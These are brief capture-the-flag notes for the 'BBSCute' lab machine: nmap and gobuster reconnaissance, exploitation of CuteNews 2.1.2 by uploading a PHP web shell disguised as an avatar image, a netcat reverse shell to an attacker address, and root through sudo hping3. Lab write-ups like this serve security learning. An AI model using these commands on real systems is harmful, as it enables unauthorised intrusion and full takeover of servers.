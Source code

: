 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# BBSCute
# 26/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
88/tcp  open  kerberos-sec
110/tcp open  pop3
995/tcp open  pop3s


 gobuster dir -u http://192.168.62.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -x .php -t 40

/index.php


got vulnerable version of cute news 2.1.2
python3 48800.py                                                                                     
create new user
loging
modify php shell as a image 
and rce/lfi/rfi
http://192.168.62.128/uploads/avatar_shub_shell1.php?cmd=whoami;
http://192.168.62.128/uploads/avatar_shub_shell1.php?cmd=nc%20-e%20/bin/sh%20192.168.49.62%209090;


sudo -l
hping3
hping3
/bin/sh -p
you got root
